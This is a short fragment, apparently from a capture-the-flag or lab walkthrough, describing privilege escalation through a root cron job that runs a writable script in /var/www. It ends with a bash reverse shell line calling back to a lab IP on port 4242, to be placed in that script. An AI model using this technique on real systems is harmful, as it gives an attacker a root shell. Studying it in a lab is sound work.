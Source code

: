 checking cronjobs with  
  
cat /etc/crontabs  
  
  
\* \* \* \* \* root cd /var/www/ && sudo bash .mysecretcronjob.sh  
  
  
we are able to edit /var/www/.mysecretcronjob.sh  
  
  
bash -i >& /dev/tcp/10.9.0.245/4242 0>&1